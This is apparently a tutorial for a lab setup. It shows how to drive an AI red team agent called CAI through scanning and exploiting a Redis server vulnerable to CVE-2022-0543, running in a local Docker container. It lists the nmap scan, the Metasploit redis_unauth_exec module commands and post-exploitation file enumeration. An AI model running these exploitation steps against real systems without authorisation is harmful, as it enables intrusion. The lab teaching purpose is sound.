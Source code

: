 ## 🎯 Getting Started with CAI to Test Redis (CVE-2022-0543)

### 🎥 Demo (Recommended First Step)

📽 **Watch this 2-minute getting started demo**:
👉 [https://asciinema.org/a/zm7wS5DA2o0S9pu1Tb44pnlvy](https://asciinema.org/a/zm7wS5DA2o0S9pu1Tb44pnlvy)

---

### 🖥️ Step 1: Start CAI

Launch CAI from the terminal:

```bash
cia
```

You’ll enter an interactive command-line interface (CLI).

---

### 🧠 Step 2: Select a Model

When prompted (or manually), choose the model you'd like to use, e.g.:

```
Model changed to: gpt-4o
```

Or run:

```bash
/model gpt-4o
```

---

### 🕵️ Step 3: Switch to the Red Team Agent

Activate the red team agent for offensive security tasks:

```bash
/agent redteam_agent
```

This enables advanced tools for scanning, exploiting, and privilege escalation.

---

### 🐳 Step 4: Start the Vulnerable Redis Server

Use Docker to launch a vulnerable Redis instance (CVE-2022-0543):

```bash
cd $HOME/labs/vulhub/redis/CVE-2022-0543
docker compose up -d
```

Expected output:

```
✔ Network cve-2022-0543_default    Created
✔ Container cve-2022-0543-redis-1  Started
```

---

### 🔎 Step 5: Scan for Redis with Nmap

Ask CAI to scan Redis on localhost:

```bash
scan localhost redis server assume host is up
```

Expected:

```
6379/tcp open  redis   Redis key-value store 5.0.7
```

---

### 🧪 Step 6: Exploit Redis with Metasploit

In CAI, request help using Metasploit:

```bash
pentest redis server running on localhost. use metasploit to exploit
```

Then, in a local terminal:

```bash
msfconsole
```

In Metasploit:

```msf
use exploit/linux/redis/redis_unauth_exec
set RHOSTS 127.0.0.1
set RPORT 6379
exploit
```

---

### 🏁 Step 7: Capture Flags / Post Exploitation

Back in CAI, enumerate the system:

```bash
ls /home
cat /home/<user>/flag.txt
```

Explore `/etc/redis/`, `/root/`, or escalate privileges if access is gained.

---

## ✅ Summary Workflow

| Step | Task                       |
| ---- | -------------------------- |
| 1    | Launch `cia` terminal      |
| 2    | Select model (`gpt-4o`)    |
| 3    | Load Red Team agent        |
| 4    | Start Redis vuln container |
| 5    | Scan with `nmap`           |
| 6    | Exploit via Metasploit     |
| 7    | Capture flags / escalate   |
